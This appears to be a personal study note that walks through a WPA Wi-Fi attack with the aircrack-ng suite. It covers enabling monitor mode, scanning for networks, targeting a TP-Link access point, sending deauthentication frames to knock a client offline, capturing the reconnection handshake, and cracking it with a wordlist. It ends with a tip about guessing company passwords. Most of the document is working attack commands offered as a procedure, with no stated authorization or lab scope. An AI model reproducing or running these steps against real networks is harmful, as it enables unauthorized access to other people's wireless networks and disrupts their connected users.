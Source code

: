 First of all in the VM we need to connect our wireless card. SO we go to:
- Player -> removable devices -> name of card WLAN -> connect
- ![[Pasted image 20250110103603.png]]


At this point we can start with the attack.

# Place card in monitor mode

To start it we need to use `airmon-ng`

```bash
airmon-ng check kill
```
- it will stop all the processes that blocks our card to be in monitor mode
- ![[Pasted image 20250110103751.png]]


At this point we start the monitor mode:
```bash
airmon-ng start OUR_CARD
```
- ![[Pasted image 20250110103831.png]]

At this point our card changes name to `previous_name_mon`
- ![[Pasted image 20250110104127.png]]



We need the monitor mode to capture all the packets in the wireless range in which we are, so packets of other devices.


# Finding the network we want to attack
To do this we need to use `airodump-ng`

```bash
airodump-ng OUR_CARDmon 
```
- ![[Pasted image 20250110104227.png]]
- ![[Pasted image 20250110104153.png]]
- This will show us all the networks in our range

The higher the negative number the lower is the distance to the network.
- `-11` is better that `-44`



At this point we identified the `TP-Link`network, we want to attack it.

# monitor tp-link network
Now we have the info about the network and we want to monito it in order to capture the packets:
```bash
airodump-ng -c channel --bssid MAC_ADDRESS_BSSID -w output_file_name OUR_MONITOR_ADAPTER_NAME
```
- ![[Pasted image 20250110104801.png]]


At this point we can see the devices connected to the network. If there are no connected devices it may be:
- we are too far from the router
- no one is connected
- the attack cannot be done in this case


The attack we want to do is the `deauth attack`. 
1. we deauthenticate a device temporarely to force it to reconnect to the network
2. on the reconnection the router and the device do the the handshake
3. we caputure the EOAPL packets of the handshake (we want to crack it)


# Deauth attack
So we have this situation:
- ![[Pasted image 20250110105150.png]]

We open now a new terminal and we run:
```bash
aireplay-ng -0 5 -a BSSID_NETWORK -c STATION_MAC (the device connected to the router)  OUR_CARD_NAME
```
- `-0` is for `deauth`
- `5` is the number of deauth message we want to send
- ![[Pasted image 20250110105447.png]]
- ![[Pasted image 20250110105501.png]]

In general we can do it on the entire network, not only on one device.

When the device is deauthenticate and reconnects to the router we can capture the handshake:
- ![[Pasted image 20250110105650.png]]

So we can stop the command with `ctrl + c`


At this point we can pass to crack it.

# Handshake cracking
Now we just need a wordlist to crack the password.

```bash
aircrack-ng -w wordlist.txt -b BSSID_NETWORK capture_file.cap
```
- ![[Pasted image 20250110110201.png]]

It can take a lot of time, but when it is done we can retrieve the password in this way:
- ![[Pasted image 20250110110249.png]]



In general companies uses their name in the password, so we can leverage on it.


